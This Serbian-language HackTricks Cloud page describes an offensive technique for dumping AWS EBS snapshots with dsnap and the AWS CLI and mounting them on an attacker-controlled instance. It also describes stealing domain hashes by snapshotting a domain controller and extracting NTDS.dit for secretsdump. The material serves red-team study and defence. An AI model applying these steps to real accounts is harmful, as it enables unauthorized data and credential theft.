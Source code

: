 # AWS - EBS Snimak Dumpa

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

### Provera snimka lokalno
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
Za više informacija o ovoj tehnici pogledajte originalno istraživanje na [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Možete to uraditi sa Pacu koristeći modul [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

### Provera snimka u AWS-u

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Montirajte ga na EC2 VM pod vašom kontrolom** (mora biti u istoj regiji kao kopija rezervne kopije):

Korak 1: Kreirajte novi volumen željene veličine i tipa tako što ćete otići na EC2 -> Volumes.

Da biste izvršili ovu radnju, pratite ove komande:
- Kreirajte EBS volumen koji će biti prikačen na EC2 instancu.
- Proverite da li su EBS volumen i instanca u istoj zoni.

Korak 2: Desnim klikom na kreirani volumen izaberite opciju "attach volume".

Korak 3: Izaberite instancu iz polja za unos instance.

Da biste izvršili ovu radnju, koristite sledeću komandu:
- Prikvačite EBS volumen.

Korak 4: Prijavite se na EC2 instancu i listajte dostupne diskove koristeći komandu `lsblk`.

Korak 5: Proverite da li volumen ima podatke koristeći komandu `sudo file -s /dev/xvdf`.

Ako izlaz iz prethodne komande prikaže "/dev/xvdf: data", to znači da je volumen prazan.

Korak 6: Formatirajte volumen u ext4 fajl sistem koristeći komandu `sudo mkfs -t ext4 /dev/xvdf`. Alternativno, možete koristiti xfs format koristeći komandu `sudo mkfs -t xfs /dev/xvdf`. Napomena: Trebali biste koristiti ili ext4 ili xfs format.

Korak 7: Kreirajte direktorijum po vašem izboru za montiranje novog ext4 volumena. Na primer, možete koristiti ime "newvolume".

Da biste izvršili ovu radnju, koristite komandu `sudo mkdir /newvolume`.

Korak 8: Montirajte volumen na direktorijum "newvolume" koristeći komandu `sudo mount /dev/xvdf /newvolume/`.

Korak 9: Promenite direktorijum na direktorijum "newvolume" i proverite prostor na disku da biste potvrdili montiranje volumena.

Da biste izvršili ovu radnju, koristite sledeće komande:
- Promenite direktorijum na `/newvolume`.
- Proverite prostor na disku koristeći komandu `df -h .`. Izlaz ove komande treba da prikaže slobodan prostor u direktorijumu "newvolume".

Ovo možete uraditi sa Pacu koristeći modul `ebs__explore_snapshots`.

### Provera snimka u AWS-u (korišćenjem cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

### Shadow Copy

Svaki AWS korisnik koji ima dozvolu **`EC2:CreateSnapshot`** može ukrasti heševe svih korisnika domena tako što će napraviti **snapshot kontrolera domena**, montirati ga na instancu koju kontroliše i **izvesti NTDS.dit i SYSTEM** registarski fajl za upotrebu sa Impacket-ovim projektom secretsdump.

Možete koristiti ovaj alat da automatizujete napad: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) ili možete koristiti jednu od prethodnih tehnika nakon što napravite snapshot.


# Reference
* https://devopscube.com/mount-ebs-volume-ec2-instance/

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini da podržite HackTricks:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
